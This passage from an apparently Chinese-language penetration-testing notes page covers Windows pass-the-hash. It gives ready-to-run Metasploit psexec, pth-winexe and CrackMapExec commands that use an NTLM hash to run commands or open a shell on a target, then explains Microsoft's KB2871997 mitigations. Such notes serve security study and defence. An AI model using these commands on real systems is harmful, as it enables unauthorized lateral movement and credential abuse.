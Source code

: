 - **metasploit**
    ```bash
    use exploit/windows/smb/psexec # 或 use exploit/windows/smb/psexec_psh
    set rhosts <ip>
    set smbuser <user>
    set smbpass <password>      # 例如: 00000000000000000000000000000000:c780c78872a102256e946b3ad238f661

    # 工具的参数需要填写固定格式 LM hash:NT hash，可以将 LM hash 填 0(LM hash 可以为任意值)，即 00000000000000000000000000000000:NT hash。
    exploit
    ```

- **pth-winexe**

    kali 自带的 PTH 套件每个工具都针对 WIN 下相应的 EXE 文件,如使用 Pth-winexe 可以借助哈希执行程序得到一个 cmdshell:
    ```bash
    export SMBHASH=xxxxxx...:xxxx...
    pth-winexe -U administrator% //target-ip cmd
    # no password 就需要替换成空的 LM hash 加密值: aad3b435b51404eeaad3b435b51404ee
    ```

- **CrackMapExec**
    - 工具地址 : https://github.com/byt3bl33d3r/CrackMapExec

    ```
    cme smb x.x.x.x -u administrator -H xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx -x whoami
    ```

#### kb2871997

> 以下部分内容来自 <sup>[Windows内网协议学习NTLM篇之NTLM基础介绍](https://www.anquanke.com/post/id/193149)、[KB22871997是否真的能防御PTH攻击？](https://www.anquanke.com/post/id/193150)</sup>

在 type3 计算 response 的时候，客户端是使用用户的 hash 进行计算的，而不是用户密码进行计算的。因此在模拟用户登录的时候。是不需要用户明文密码的，只需要用户 hash。

微软在2014年5月13日发布了针对 Pass The Hash 的更新补丁 kb2871997，能够缓解 PTH,具体更改为以下几点。
- 支持“Protected Users”组；
    - “Protected Users”组是 Windows Server 2012 R2 域中的安全组，“Protected Users”组的成员会被强制使用 Kerberos 身份验证，并且对 Kerberos 强制执行 AES 加密。
- Restricted Admin RDP 模式的远程桌面客户端支持；
    - Restricted Admin RDP 模式是为了避免将 Client 端的凭据暴露给远程系统，同时也产生一种变种的 Pass The Hash（Passing the Hash with Remote Desktop）
- 注销后删除 LSASS 中的凭据；
    - 在这个更新之前，只要用户登录系统，Windows 就会在 lsass 中缓存用户的凭据，包括用户的明文密码、LM/NTLM HASH、Kerberos 的 TGT 票据/Session Key。
- 添加两个新的 SID；
    - 本地帐户，LOCAL_ACCOUNT（S-1-5-113），所有本地帐户继承自此 SID；
    - 本地帐户和管理组成员，LOCAL_ACCOUNT_AND_MEMBER_OF_ADMINISTRATORS_GROUP（S-1-5-114），所有管理员组的本地用户继承此 SID。
    - 注意：S-1-5-114 这里在中文操作系统中提供的翻译是“NT AUTHORITY\本地帐户和管理员组成员”，但实际上是“所有本地 Administrators 组中的本地帐户”，即域用户即使被加入到了本地 Administrators 组也不继承此 SID。
- LSASS 中只允许 wdigest 存储明文密码。
